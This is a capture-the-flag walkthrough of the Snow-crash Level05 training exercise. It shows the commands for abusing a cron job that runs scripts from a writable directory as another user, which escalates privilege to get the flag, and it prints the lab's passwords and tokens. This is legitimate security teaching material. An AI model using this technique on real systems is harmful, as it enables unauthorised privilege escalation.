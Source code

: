 ```yaml
---
title:  "Snow-crash Level05"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
categories: cyber-security
permalink: /cyber-security/snow-crash/
---
```


#### 1. The password of `Level05` is the token that got from `Level04`.

```
ne2searoevaevoem4ov4ar8ap

```
#### 2. So, try login to `Level05` with the password we got from `Level04` and try to put the command 'ls -la'. Let's see inside in level05.

```
level05@localhost's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$
```
```bash

level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

It says that there is a new mail. 

#### 4. So, I found the small hint from /var/mail/level05

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls -la
total 4
drwxrwsr-x  1 root mail  60 Mar  5  2016 .
drwxr-xr-x  1 root root 160 Mar 12  2016 ..
-rw-r--r--+ 1 root mail  58 Feb 13 16:49 level05
```

there is a file `level05`.

```bash
level05@SnowCrash:/var/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
So, I was looking for /usr/sbin/openarenaserver and we found a script as below. Let's take a look inside one by one.

```bash
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do 

	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
That means that the script goes through each file in the specified directory, sets a CPU time limit of 5 seconds for its execution, executes the script with debugging output, and then removes the script file.

We can't and should not put anything inside `/opt/openarenaserver` because this directory will be deleted in every 2 minutes, so we should put our file safely in `/tmp` file.

We therefore, need to create a bash script in that directory,to get the file and to make sure that the optut is redirected to a file in `/tmp`. So, the overall effect of this command is to create a file named `getflag05` in the `/opt/openarenaserver/` directory.

```bash
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05'
getflag > /tmp/flag05
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
level05@SnowCrash:/usr/sbin$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc

level05@SnowCrash:/var/mail$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

#### 5.  We got a token for next `level06`

```
viuaaale9huek52boumoomioc
```